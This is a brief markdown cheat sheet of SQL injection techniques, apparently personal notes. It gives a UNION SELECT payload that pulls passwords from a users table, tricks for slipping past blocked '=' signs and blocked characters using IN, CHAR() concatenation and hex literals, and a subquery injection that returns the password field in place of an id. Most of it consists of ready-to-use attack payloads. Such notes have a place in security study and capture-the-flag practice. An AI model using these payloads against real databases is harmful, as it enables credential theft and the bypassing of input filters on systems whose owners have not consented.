 # Basic

## Select injection

#### Basic

`-100 UNION SELECT password from users`

union the results of the intended query with more information (just make sure number of columns match)

#### Col Num Nismatch

you can use `join` instead of union

## Blacklists

#### Blocked "="?

`id = 1` can also be written as `id in (1)`

#### Blocked characters?

As long as you can use string concatination you can replace most fields where a term is blocked with

`(select CHAR(97)||CHAR(98)...)`

in addition remember sql lets you have hex strings in leu of text.

`0x12345`


## Injecting into table field

if you have something like

`select id from <injection>`

utilise sub queries, this will grab the password field instead of the id field.

`select id from (select password as id from users)`
